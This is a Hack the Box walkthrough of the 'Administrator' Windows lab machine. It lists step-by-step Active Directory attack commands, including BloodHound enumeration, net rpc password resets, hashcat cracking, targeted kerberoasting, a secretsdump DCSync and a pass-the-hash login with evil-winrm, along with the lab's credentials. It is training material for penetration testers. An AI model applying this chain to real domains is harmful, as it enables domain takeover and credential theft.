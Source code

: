 # Administrator

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](#key-learnings)
- [Walkthrough](#walkthrough)
- [Remediation Summary](#remediation-summary)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
2. Given olivia's credentials, run bloodhound to gather AD info

	```sudo bloodhound-python -d administrator.htb -u olivia -p ichliebedich -ns [IP] -c all```

4. load bloodhound info
5. bloodhound finds that olivia has GenericAll privs over michael

![image](https://github.com/user-attachments/assets/465491ec-fada-4fb5-93a8-c87657433cbe)

5. change michael's password
	
 	```net rpc password "michael" -U "administrator.htb"/"olivia" -S "[IP]"```

![image](https://github.com/user-attachments/assets/2b513753-0287-4187-87ad-8c5822921a5b)

6. michael has ForceChangePassword permission over benjamin

![image](https://github.com/user-attachments/assets/908af74c-ab83-4ecd-841c-7a0a2424dda1)

7. change benjamin's password 
	
 	```net rpc password "benjamin" -U "administrator.htb"/"michael" -S "[IP]"```

![image](https://github.com/user-attachments/assets/075d1086-566b-4d1a-aaa8-3410f46b5664)

8. benjamin can login to ftp, get Backup.psafe3 file

![image](https://github.com/user-attachments/assets/4788173f-4ac8-4391-ae25-0f660d10286f)

9. use hashcat to crack password on psafe3
	
 	```hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt```

10. reveals password for psafe3 file is `tekieromucho`
11. opening the psafe3 file reveals 3 credentials:
	1. alexander
	2. emily
	3. emma
12. bloodhound shows the emily has GenericWrite privs over ethan

![image](https://github.com/user-attachments/assets/efa95615-b1f6-49df-9c9f-52138705e2c6)

13. before doing kerberoast attack, need to fix clock skew
	1. On actual machine, not VM, go to cmd and cd into this folder `C:\Program Files\Oracle\VirtualBox`
	2. run this command `VBoxManage setextradata "VM name" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1`
	3. then, on Kali VM, run `sudo rdate -n [IP]`
14. now can do a targeted kerberoast attack on ethan using emily's credentials
	
 	```targetedKerberoast.py --dc-ip [IP] -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb```

![image](https://github.com/user-attachments/assets/457a3b7e-2e71-48e6-8d52-8c4f11422798)

15. this reveals ethan's password is `limpbizkit`

![image](https://github.com/user-attachments/assets/fbdf1e5a-0096-4f89-a890-97fc07a89c1b)

16. ethan has DCSync permission over Administrator.htb. This means ethan is local admin so can do secretdump
	
 	```secretsdump.py administrator.htb/ethan:limpbizkit@[IP]```

![image](https://github.com/user-attachments/assets/fdfcde64-d5a7-40ad-9af6-b515e73e8769)

![image](https://github.com/user-attachments/assets/2967cec7-9da7-4d2f-8dec-c0916ff50ca5)

17. this gives us Administrator hash so can do PtH with evil-winrm 
	
 	```evil-winrm -i [IP] -u administrator -H [HASH]```

![image](https://github.com/user-attachments/assets/27ddb48f-62ec-49d8-9ba0-a104cd4df325)

18. gives us admin shell and rooted!


## Remediation Summary
- 
